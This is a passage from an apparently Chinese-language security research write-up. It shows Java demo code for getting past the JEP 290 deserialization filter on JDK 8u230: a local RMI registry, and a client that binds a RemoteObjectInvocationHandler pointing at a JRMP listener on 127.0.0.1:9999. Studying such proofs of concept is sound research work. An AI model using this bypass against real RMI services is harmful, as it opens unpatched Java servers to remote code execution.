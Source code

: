 ### Demo
测试代码如下:
 - RMIRegistry

```java
package org.h3rmesk1t.jep290.bypass8u230;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 2:13 上午
 */
public class RMIRegistry {

    public static void main(String[] args) throws RemoteException {

        LocateRegistry.createRegistry(2222);
        System.out.println("RMI Registry Start...");

        while (true);
    }
}
```
 - RMIClient

```java
package org.h3rmesk1t.jep290.bypass8u230;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 2:15 上午
 */
public class RMIClient {

    public static void main(String[] args) throws RemoteException, AlreadyBoundException {

        Registry registry = LocateRegistry.getRegistry(2222);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        registry.bind("demo", obj);
    }
}
```
